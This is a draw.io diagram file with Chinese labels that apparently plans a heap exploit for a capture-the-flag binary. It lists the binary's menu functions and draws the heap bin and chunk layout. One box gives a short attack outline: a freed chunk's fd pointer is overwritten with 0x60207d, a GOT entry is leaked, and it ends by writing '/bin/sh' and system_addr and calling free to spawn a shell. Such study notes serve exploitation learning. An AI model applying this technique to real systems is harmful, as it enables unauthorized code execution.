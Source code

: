 <mxfile version="24.2.1" type="github">
  <diagram name="第 1 页" id="erWBEHMT_IxAKbOyUFVJ">
    <mxGraphModel dx="1949" dy="537" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-1" value="一共有5个方法：&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;func1 malloc(0x60)&lt;/div&gt;&lt;div&gt;func2 read&amp;nbsp; 0x40&lt;/div&gt;&lt;div&gt;func3 print&lt;/div&gt;&lt;div&gt;func4 free&lt;/div&gt;&lt;div&gt;func5 malloc 0x60&lt;/div&gt;&lt;div&gt;read 0x60&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="30" y="10" width="240" height="160" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-2" value="&lt;div&gt;攻击思路：&lt;/div&gt;add()&lt;div&gt;free()&lt;/div&gt;&lt;div&gt;edit(p64(0x60207d))&amp;nbsp;&lt;br&gt;&lt;/div&gt;&lt;div&gt;add()&lt;/div&gt;&lt;div&gt;func5&amp;nbsp;b&#39;aaa&#39;+p64(0)*3+p64(0x602018-8)+p64(0)*4 &amp;nbsp;&lt;/div&gt;&lt;div&gt;show&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;edit(b&#39;/bin/sh\x00&#39;+p64(system_addr))&lt;br&gt;&lt;/div&gt;&lt;div&gt;free&lt;/div&gt;" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="310" y="170" width="280" height="170" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-3" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;add()&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="827" y="160" width="60" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-5" value=" bss p=0x6020A8" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-140" y="40" width="100" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-6">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="970" y="245" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-6" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="860" y="230" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-9" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="170" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-10" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="200" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-11" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="230" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-12" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="260" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-13" target="IB8mfc5W1hkk9r3mwRGL-14">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-13" value="bin" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1380" y="30" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-14" value="ps" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="120" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-18" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-19">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1375" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-19" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1265" y="155" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-20" value="s" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="140" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-21" value="fd" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="160" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-22" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="180" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-23" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;free()&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1190" y="80" width="60" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-24" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;edit(p64(0x60207d))&amp;nbsp;&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1580" y="120" width="140" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-25" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-26" target="IB8mfc5W1hkk9r3mwRGL-27">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-26" value="bin" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1825" y="30" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-27" value="ps" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="120" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-28" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-29">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1820" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-29" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1710" y="155" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-30" value="s" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="140" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-34" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-31">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1970" y="169.957" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-31" value="0x60207d" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="160" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-32" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="180" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-36" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1970" y="155" width="110" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-37" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1970" y="185" width="110" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-38" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1970" y="215" width="110" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-39" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1970" y="245" width="110" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-40" value="add" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2320" y="170" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-42" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-43" target="IB8mfc5W1hkk9r3mwRGL-44">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-43" value="bin" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2495" y="107.5" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-44" value="ps" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="2490" y="197.5" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-45" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-46">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="2490" y="247.5" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-46" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2380" y="232.5" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-47" value="s" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="2490" y="217.5" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-49">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="2640" y="247.457" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-49" value="0x60207d" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="2490" y="237.5" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-50" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="2490" y="257.5" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-51" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="2640" y="232.5" width="110" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-52" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="2640" y="262.5" width="110" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-53" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="2640" y="292.5" width="110" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-54" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="2640" y="322.5" width="110" height="30" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
